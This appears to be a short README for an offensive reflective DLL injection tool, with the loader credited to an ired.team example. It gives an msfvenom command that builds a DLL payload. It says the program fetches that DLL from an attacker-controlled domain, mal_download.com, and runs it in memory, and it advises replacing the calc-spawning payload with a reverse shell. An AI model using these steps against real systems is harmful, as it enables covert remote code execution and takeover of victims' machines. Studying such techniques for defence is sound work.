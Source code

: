 # Injection Technique -> Reflective DLL Injection
## referenses
- Modified the following code for the reflective loader
    - https://www.ired.team/offensive-security/code-injection-process-injection/reflective-dll-injection
## To Run
- Must have the domain mal_download.com linked to a host that we control.
    - for testing an entry was added to the hosts file under c:\windows\system32\drivers\etc\hosts
- Hosting HTTP server tested against "python3 -m http.server 80". Failed against apache
- Create the DLL using `msfvenom -f dll -p windows/x64/exec CMD="c:\windows\system32\calc.exe -o spawn_calc.dll`
- The program reaches out to the http://mal_download.com/spawn_calc.dll to download a DLL which will be loaded in memory and executed.
- Current spawn_calc.dll was generated by metasploit. Replace with reverse shell to get a shell back
